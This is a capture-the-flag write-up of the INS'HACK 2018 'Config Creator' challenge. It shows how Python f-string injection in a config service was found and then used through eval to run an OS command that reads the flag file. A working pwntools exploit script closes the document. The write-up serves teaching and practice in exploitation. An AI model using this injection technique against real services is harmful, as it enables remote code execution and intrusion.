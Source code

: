 # Config Creator
##### INS'HACK 2018 (https://ctf.insecurity-insa.fr)
```
I've just written a small utility to create a config file (which are sooo painful to write by han, right?).

Care to have a look?

nc config-creator.ctf.insecurity-insa.fr 10000
```

This pwn challenge did not provide the binary, so "educated guessing" was used to poke around for possible vulnerabilities. The service presents the following menu:
```
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit
```

`1. Register a new config entry` allows us to create custom key:value pairs. Fuzzing these and then using `4. Show my config` showed errors when the service failed to parse input:

```
config:
f-string: empty expression not allowed (<string>, line 6)
An error occurred, sorry
```

Researching `f-string` revealed that it was likely a new Python format string format (introduced in version 3.6). This fact can be confirmed by registering a valid config entry and then using `3. Show my template`:

```
template:
f"""
configuration [
    a = {a};
]
"""
```

Looks like a Python f-string. So this pwn challenge is about Python injection. According to the docs, `{}` evalues input before supplying it to the f-string. The vulnerability can be confirmed by creating a key `eval('print(1234)')` with `{}` as value:

```
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 1

Config key? eval('print(1234)')
Config value? {}

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4

config:
1234
eval() arg 1 must be a string, bytes or code object
An error occurred, sorry
```

The program gives an error, but `1234` is printed back, which means injected code executed. Again, according to the docs and as can be confirmed in the challenge, using code with special characters and spaces will not work, because of the way f-strings are parsed. So before evaluating the exploit code, it must first be declared as a value in one key, and then evaluated with the second key. The following exploit does just that:

```python
from pwn import *

def xrust(data):
    global p
    print p.recvuntil('? ')
    p.sendline(data)

p = remote('config-creator.ctf.insecurity-insa.fr', 10000)

xrust('1') #register
xrust('a')
xrust('__import__("os").system("cat flag.txt")')

xrust('1') #register
xrust('eval(a)')
xrust('{}')

xrust('4') #config
print p.recvline() # INSA{dont_get_me_wrong_i_love_python36}
```
